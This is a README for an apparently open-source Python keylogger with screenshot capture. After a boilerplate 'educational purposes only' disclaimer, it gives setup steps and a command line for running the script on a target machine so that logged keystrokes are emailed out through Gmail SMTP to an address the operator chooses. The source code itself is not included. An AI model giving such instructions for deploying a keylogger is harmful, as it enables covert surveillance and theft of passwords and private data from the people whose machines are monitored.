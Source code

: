 # Copyright (C) 2020  Cennef0x
# Python-Keylogger
Python Keylogger with screenshots

This program is free software: you can redistribute it and/or modify it

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
This script was made available for informational and educational purposes only.
Any actions and or activities related to the material contained within this Repository is solely your responsibility.The misuse of these scripts can result in criminal charges brought against the persons in question. Any actions and or activities related to the material contained within this Website is solely your responsibility.The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the scripts in this repository to break the law.
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


This script use gmail smtp servers, you will need and account to send the keystrokes log.

STEP 1 - Install the requirements

STEP 2 - Add your API KEY into screenshoter.py at line 20

STEP 3 - Start the script from the console in the machine your want to keylog : 

python main.py "myemail@gmail.com" "myemailpassword" "theemailyouwanttosendthelogs@mail.com

To stop it close the cli or kill the process if you use executed this script without the console
